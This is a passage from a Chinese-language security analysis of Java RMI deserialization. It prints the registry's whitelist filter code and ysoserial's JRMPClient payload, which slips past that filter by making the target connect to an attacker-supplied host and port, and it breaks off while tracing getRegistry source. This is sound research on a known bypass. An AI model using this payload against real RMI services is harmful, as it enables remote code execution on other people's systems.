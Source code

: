 ```
        }

        if (var2.isPrimitive()) {
          return Status.ALLOWED;
        } else {
          return String.class != var2 && !Number.class.isAssignableFrom(var2) && !Remote.class.isAssignableFrom(var2) && !Proxy.class.isAssignableFrom(var2) && !UnicastRef.class.isAssignableFrom(var2) && !RMIClientSocketFactory.class.isAssignableFrom(var2) && !RMIServerSocketFactory.class.isAssignableFrom(var2) && !ActivationID.class.isAssignableFrom(var2) && !UID.class.isAssignableFrom(var2) ? Status.REJECTED : Status.ALLOWED;
        }
      }
    }
}
```



可以看到，最后的白名单判断：

1. String.clas
2. Number.class
3. Remote.class
4. Proxy.class
5. UnicastRef.class
6. RMIClientSocketFactory.class
7. RMIServerSocketFactory.class
8. ActivationID.class
9. UID.class

看到这个白名单，也就是说，几乎全部gadget基本都凉了。

这时候，我们看向ysoserial，它有一个payload是ysoserial.payloads.JRMPClient，我们看看它payload的内容

```
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(host, port);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
    Registry.class
}, obj);
```

payload只有几行代码，但是恰恰都就在白名单内。

那么，这个payload到底做了什么事情呢？这时候，我们可以跟到客户端和服务端执行的

```
LocateRegistry.getRegistry("127.0.0.1", 1099);
```



源码中

```
public static Registry getRegistry(String host, int port)
        throws RemoteException
{
    return getRegistry(host, port, null);
}

public static Registry getRegistry(String host, int port,
                                       RMIClientSocketFactory csf)
        throws RemoteException
{
    Registry registry = null;

    if (port <= 0)
```